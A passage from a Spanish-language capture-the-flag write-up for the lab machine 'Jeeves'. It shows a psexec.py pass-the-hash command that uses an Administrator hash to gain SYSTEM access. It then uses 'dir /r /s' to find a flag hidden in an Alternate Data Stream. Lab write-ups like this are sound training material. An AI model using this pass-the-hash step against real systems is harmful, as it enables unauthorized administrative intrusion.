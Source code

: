 ```
psexec.py WORKGROUP/Administrator@10.10.10.63 -H e0fb1fb85756c24235ff238cbe81fe00
```

Ahora tenemos acceso full al sistema como usuario nt authority\\system.

![](ss/Jeeves/priv2.png)

## 2da Flag

"La flag esta en otro lugar, mira profundo".

![](ss/Jeeves/ds1.png)

Con el siguiente comando podemos ver los ADS ( Alternate Data Streams )

```
dir /r /s
```
